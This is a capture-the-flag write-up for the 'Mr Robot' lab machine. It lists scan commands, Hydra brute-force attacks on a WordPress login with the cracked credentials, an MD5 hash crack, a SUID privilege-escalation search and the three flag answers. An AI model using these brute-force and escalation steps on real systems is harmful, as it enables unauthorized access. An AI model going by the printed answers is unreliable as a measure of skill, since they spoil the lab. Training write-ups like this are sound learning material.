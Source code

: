 # Mr Robot CTF
Based on the Mr. Robot show, can you root this box?

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

```
ip = 10.10.69.230
```

## Nmap

```
nmap -sC -sV -oN initial.log 10.10.69.230
```

>22/tcp  closed ssh
>
>80/tcp  open   http     Apache httpd
>
>443/tcp open   ssl/http Apache httpd


## Task 1.

```
nikto -h http://10.10.69.230 | tee nikto.log
```

Using **gobuster** I'm going to scan `http://10.10.69.230 /` for hidden directories or files using a wordlist and checks specified file extensions like php or txt.

```
gobuster dir -u http://10.10.69.230 / -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,sh,cgi,html,css,js,py
```

Looking at `http://10.10.69.230/robots.txt` I find three strings:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

With the second one I download a file with a lot of strings accessing `http://10.10.69.230/fsocity.dic`. With the third one I obtain the first key accessing `http://10.10.69.230/key-1-of-3.txt`. After that with the iformation obtained I find a Wordpress login page. When I try to access with an user that doesnt exists I obtain: `ERROR: Invalid username.`. So, with Hydra I am going to try to obtain a valid username.

```
hydra -L fsocity.dict -p test 10.10.69.230 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-03 16:09:00
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.69.230:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.69.230   login: Elliot   password: test

```

Once I have a valid username (`Elliot`), I obtain the password: 

```
hydra -l Elliot -P fsocity.dict 10.10.69.230 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered" -t 30

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-03 16:15:00
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.69.230:80/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered
[80][http-post-form] host: 10.10.69.230   login: Elliot   password: ER28-0652

```

Once inside the Wordpress I can modify its files. So, making use of this, I perform a reverse shell and obtain access to a terminal. Looking into the files I see the file with the second key. However, this document only can be accessed with another user. To get access to this user I need its password. The passworod is stored in a file as a MD5 hash (I reviewed it with `hash-id -h c3fcd3d76192e4007dfb496cca67e13b`). With JohnTheRipper I retrive the password and obtain the second key.

```
/snap/john-the-ripper/current/run/john password.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2024-12-04 11:53) 33.33g/s 1356Kp/s 1356Kc/s 1356KC/s bonjour1..teletubbies
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Finally, to obtain the last key I need to obtain root privileges. In this case I seacrh for identify binaries in the /bin/ directory with setuid or setgid permissions. These permissions can be security-critical because they allow users to execute the binary with the file owner's (usually root's) or group's privileges.

```
find / -perm +6000 2>/dev/null | grep '/bin/'
```
Between the possible binaries I find nmap, so, looking into `https://gtfobins.github.io/` I obtain the instructions to obtain a root terminal. Once I have the root terminal I obtain the last flag in the `/root` folder. 



### Questions

1. What is key 1?
    >073403c8a58a1f80d943455fb30724b9
2. What is key 2?
    >822c73956184f694993bede3eb39f959
3. What is key 3?
    >04787ddef27c3dee1ee161b21670b4e4